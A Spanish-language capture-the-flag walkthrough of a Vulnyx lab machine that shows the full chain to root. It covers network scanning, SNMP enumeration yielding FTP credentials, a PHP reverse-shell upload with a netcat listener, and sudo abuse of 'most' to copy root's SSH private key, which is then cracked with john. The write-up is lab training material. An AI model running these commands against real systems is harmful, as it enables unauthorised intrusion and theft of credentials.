









# Tr0ll — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** Vulnyx - Dark (link arriba)  
**Objetivo:** Obtener acceso root y encontrar la flag.
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP, SSH y HTTP con escaneo TCP y SNMP mediante UDP.
- Se usa `onesixtyone` y `snmpwalk` -> Credenciales FTP = subida de reverse shell
- Movimiento lateral mediante `/usr/bin/sh`
- `/usr/bin/most` permite obtener id_rsa de usuario root -> `john` crackea la clave privada.
- Flags: root.

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.79**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.79` (confirma Linux).



## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.79 -Pn -n -vvv
```

Escaneo con scripts en puertos detectados (22,80,8000):

```bash
nmap -sCV -p22,80,8000 192.168.1.97
```


En este caso el escaneo UDP arrojó el puerto 161 abierto.



Resultados clave:
- 22/tcp SSH  
- 80/tcp HTTP
- 8000/tcp FTP
- 161/udp SNMP

## 3) Enumeración web
Ingreso al servidor HTTP y encuentro la página vacía. Realizo fuzzing con `dirbuster`, `gobuster`, `dirsearch` y `wfuzz` sin encontrar archivos o directorios importantes.



## 4) Enumeración SNMP
Debido a que en los servicios TCP no pude encontrar nada reelevante, procedo a enumerar el puerto 161; primeramente con `onesixtyone` para encontrar la comunidad correspondente y, posteriormente, uso `snmpwalk` con el fin de enumerar información.





```bash
onesixtyone 192.168.1.79 -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt
snmpwalk -v2c root 192.168.1.79
```

## 5) Acceso y enumeración local
Una vez con las credenciales FTP conseguidas me dirijo a enumerar el servicio sin resultados. Subo una reverse shell y me pongo en escucha con `netcat`. Leo la bandera número uno.



```bash
put rshell.php
nc -nlvp 443
```

Aplico `sudo -l` para listar los privilegios del usuario actual y encuentro que puedo usar el comando `sh` como el usuario alan, por lo cual logro migrar de usuario.



Nuevamente listo los privilegios disponibles y encuentro `usr/bin/most` con capacidad de ejecutarse como root. Investigando un poco, encuentro que es un programa para visualizar archivos de texto en la terminal (similar a more o less).
Consigo que `most` almacene el archivo `id_rsa` del usuario root en un archivo accesible sin privilegios.

```bash
sudo /usr/bin/most /root/.ssh/id_rsa >> /tmp/id_rsa.txt
```

## 6) Escalada a root
Una vez con el `id_rsa` almacenado me apoyo de `john` para crackear la contraseña.
Me logueo como root y leo la última bandera.



```bash
john -w:/usr/share/wordlist/rockyou.txt id_rsa.txt
chmod 700 id_rsa.txt
ssh root@192.168.1.79 -i id_rsa.txt
```

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.79 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.79
nmap -sU --top-ports 50 192.168.1.79
onesixtyone 192.168.1.79 -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt
snmpwalk -v2c root 192.168.1.79
sudo /usr/bin/most /root/.ssh/id_rsa >> /tmp/id_rsa.txt
john -w:/usr/share/wordlist/rockyou.txt id_rsa.txt
chmod 700 id_rsa.txt
ssh root@192.168.1.79 -i id_rsa.txt
```

## Conclusión
Este CTF nos recuerda que la fase de enumeración es la más importante de todas, pues es la base de todo el proceso y de ella depende el resultado final en las pruebas de penetración. Sin un reconocimiento exhaustivo, se podrían pasar por alto vulnerabilidades clave, lo que llevaría a un análisis incompleto.